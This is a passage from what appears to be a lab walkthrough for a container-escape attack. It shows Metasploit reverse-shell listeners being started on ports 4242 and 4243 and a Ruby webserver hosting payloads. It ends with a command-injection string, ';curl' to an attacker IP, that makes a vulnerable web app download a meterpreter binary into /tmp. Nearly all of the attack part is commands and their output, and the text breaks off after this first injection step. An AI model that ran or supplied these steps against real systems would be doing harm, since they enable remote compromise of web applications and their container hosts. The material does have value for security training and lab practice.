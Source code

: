 ### Start the container listener

In the first terminal, start `msfconsole` listening on port `4242` for the container:

```bash
root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole1
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4243` for the host:

```bash
azureuser@attacker:~$ sudo -i

root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole2
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/shell/reverse_tcp
lhost => 0.0.0.0
lport => 4243
[*] Started reverse TCP handler on 0.0.0.0:4243
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
azureuser@attacker:~$ sudo -i

root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./start_ruby_webserver
[2022-08-15 18:28:35] INFO  WEBrick 1.4.2
[2022-08-15 18:28:35] INFO  ruby 2.5.1 (2018-03-29) [x86_64-linux-gnu]
[2022-08-15 18:28:35] INFO  WEBrick::HTTPServer#start: pid=3850 port=8001
```

## Escape time

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```
